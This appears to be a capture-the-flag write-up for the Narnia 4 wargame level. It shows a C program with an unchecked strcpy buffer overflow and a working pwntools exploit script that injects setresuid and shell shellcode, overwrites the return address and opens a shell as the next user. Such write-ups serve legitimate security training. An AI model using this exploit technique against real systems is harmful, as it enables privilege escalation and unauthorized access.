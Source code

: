 # Narnia 4

## C File

```c
extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```


## Approach

This is basically exactly the same as narnia2

If we make `argv[1]` large enough it will overflow and rewrite the return address

We make the return address back to the buffer filled with shellcode

## Solution

```python
from pwn import *
offset = 264
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload = payload + b'A' * (264-len(payload))
payload = payload + p32(0xffffd124)
p = process(["/narnia/narnia4", payload])
#p = gdb.debug(["/narnia/narnia4", payload], gdbscript="source /opt/gef/gdbinit.py")
p.interactive()
```

Again we find the offset using `cyclic` and the address to the buffer using `gdb`

then we just put the shellcode, fill up the buffer, and add the address of the buffer

We run it and get a shell as narnia5 and open the password file

## Conclusion

Again be careful with `strcpy` as its an easy way to cause a buffer overflow
